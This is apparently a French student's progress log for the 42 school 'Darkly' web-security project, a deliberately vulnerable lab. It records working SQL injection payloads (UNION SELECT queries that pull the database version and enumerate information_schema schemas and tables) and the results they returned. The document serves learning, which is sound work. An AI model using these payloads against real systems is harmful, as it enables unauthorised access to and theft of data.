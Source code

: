 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
injection sql sur une recherche 
injection sql sur login
injeciton de donner sur l upload dimage
injection js
injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)


29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les titre des colonnes
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey
0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
